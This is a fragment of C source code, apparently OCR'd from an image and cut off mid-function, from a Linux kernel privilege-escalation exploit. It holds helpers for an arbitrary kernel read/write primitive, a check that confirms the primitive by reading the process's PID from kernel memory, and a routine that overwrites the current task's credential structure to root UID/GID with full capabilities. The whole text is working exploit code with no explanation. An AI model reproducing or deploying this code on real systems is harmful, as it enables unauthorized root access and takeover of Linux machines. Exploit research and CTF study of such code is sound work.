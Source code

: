 ```c
    kWrite(Address, sizeof(Value), &Value);
}


/**
 * Write qword to arbitrary address
 *
 * @param Address: address where to write
 * @param Value: value to write
 */
void kWriteQword(void *Address, uint64_t Value) {
    kWrite(Address, sizeof(Value), &Value);
}

void JudgeRWAnyWhere(){
    printf("[+] Verifying read/write primissive\n");


    pid_t currentPid = getpid();

    pid_t expectedPid = 0;

    expectedPid = kReadDword(m_pidAddress);

    printf("\t [*] currentPid: %d\n",currentPid);
    printf("\t [*] expectedPid: %d\n",expectedPid);

    if(currentPid != expectedPid ){
        printf("\t[-] r/w failed\n");
        exit(EXIT_FAILURE);
    }else{
        printf("\t [*] r/w successfully\n");
    }

}

void PatchCred(){
    printf("[+] Patching current task cred members \n");

    m_cred = (struct cred *)kReadQword(m_credAddress);

    if(!m_cred){
        printf("\t [-] Failed to read cred: %p",m_credAddress);
        exit(EXIT_FAILURE);
    }
    printf("\t cred: %p\n",m_cred);

    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, uid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, gid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, suid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, sgid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, euid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, egid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, fsuid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, fsgid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, securebits)), SECUREBITS_DEFAULT);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_inheritable)), CAP_EMPTY_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_permitted)), CAP_FULL_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_effective)), CAP_FULL_SET);
```